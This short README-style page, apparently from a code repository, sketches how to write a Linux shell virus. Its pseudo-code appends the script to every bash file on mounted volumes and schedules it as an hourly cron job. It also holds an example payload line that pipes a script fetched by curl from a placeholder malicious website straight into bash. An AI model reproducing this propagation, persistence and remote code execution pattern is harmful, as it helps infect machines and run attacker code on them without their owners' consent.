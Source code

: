 ### Over simplified Psuedo-code
```
for $volume in '/volumes':
  for $bashFile in $volume:
    $bashFile.append(thisScript)
    
cronJob.add(thisScript, OneHour)

# Add malicious code below this
# example:
bash <(curl -s http://myMaliciouswebsite.com/notahackscript.sh)
```

https://www.quora.com/How-can-I-make-a-virus-from-Linux/answer/Aravind-Reddy-V

A more tedious psuedo-code in `virus.sh` file.
